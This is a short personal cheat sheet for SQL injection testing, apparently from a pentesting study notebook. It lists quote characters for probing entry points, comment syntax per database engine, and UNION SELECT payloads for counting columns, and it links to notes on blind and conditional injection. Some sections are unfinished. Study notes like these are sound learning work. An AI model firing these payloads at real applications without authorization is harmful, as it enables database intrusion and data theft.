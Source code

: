 ## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
> If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get databases**:




### [[Blind SQLi]]
If you cant see the output of your SQL query then this is the way to go ╰(*°▽°*)╯


[[Blind SQLi]]
**If it does not seem to return specific results depending on your injection...**
- ...and it does not seem to be modifying the response of the application in any way, check out [[Blind SQLi]]. 
- ...and your query triggers a boolean response from the application (i.e. 200/500, or a generic success/fail message in the page), check out [[Conditional SQLi]]

**What other options are there?**
Out-of-band SQLi
	I don't have access to burp collaborator so this is out of the question with the resources I have at the moment
- 
